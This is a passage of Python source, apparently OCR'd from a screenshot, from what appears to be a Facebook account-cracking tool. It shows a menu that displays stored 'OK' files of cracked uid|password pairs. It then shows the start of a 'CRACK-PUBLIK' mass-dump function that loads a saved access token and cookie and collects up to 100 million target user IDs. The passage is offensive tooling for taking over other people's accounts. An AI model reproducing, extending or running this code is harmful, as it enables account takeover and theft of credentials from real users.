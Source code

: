                     lol.update({str(cih):str(isi)})
                    lol.update({nom:str(isi)})
                    print(' '+nom+'. '+isi+'\033[32m '+str(len(hem))+' \033[0m OK '+x)
                else:
                    lol.update({str(cih):str(isi)})
                    print(' '+str(cih)+'. '+isi+'\033[32m '+str(len(hem))+' \033[0m OK '+x)
            print('\x1b[38;5;50m==================')
            geeh = input(' \x1b[1;92m [•] CHOOSE : ')
            print('\x1b[38;5;50m==================')
            try:geh = lol[geeh]
            except KeyError:
                print('\x1b[38;5;50m==================')
                animation(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] NO OPTION FOUND ')
                exit()
            try:lin = open('OK/'+geh,'r').read().splitlines()
            except:
                print('\x1b[38;5;50m==================')
                animation(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] FILE NOT FOUND ')
                time.sleep(2)
                back()
            noCP=0
            for CPku in range(len(lin)):
                CPkuni=lin[noCP].split('|')
                print(f'\033[97;1m[\x1b[38;5;50m•\033[97;1m] OK : \033[32m {CPkuni[0]}|{CPkuni[1]}\033[0m')
                noCP +=1
            print('\x1b[38;5;50m==================')
            input('\033[97;1m[\x1b[38;5;50m•\033[97;1m] PRESS ENTER TO BACK ')
            back()
    elif kz in ['0','00']:
        back()
    else:
        print('\x1b[38;5;50m==================')
        animation(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] NO OPTION FOUND IN MENU')
        exit()
 
#-------------------[ CRACK-PUBLIK ]----------------#
 
def dump_massal():
    try:
        token = open('.token.txt','r').read()
        cok = open('.cok.txt','r').read()
    except IOError:
        exit()
    try:
        print('\x1b[38;5;50m==================')
        jum = int(input(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] ENTER TARGET AMOUNT  : '))
        print('\x1b[38;5;50m==================')
    except ValueError:
        print('\x1b[38;5;50m==================')
        animation(' [×] INVALID OPTION ')
        exit()
    if jum<1 or jum>100000000:
        print('\x1b[38;5;50m==================')
        animation(' [×] TRY AGAIN ')
        exit()
    ses=requests.Session()
    yz = 0
    for met in range(jum):
        yz+=1
        kl = input(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] INPUT UID '+str(yz)+' : ')
        uid.append(kl)
    for userr in uid:
        try: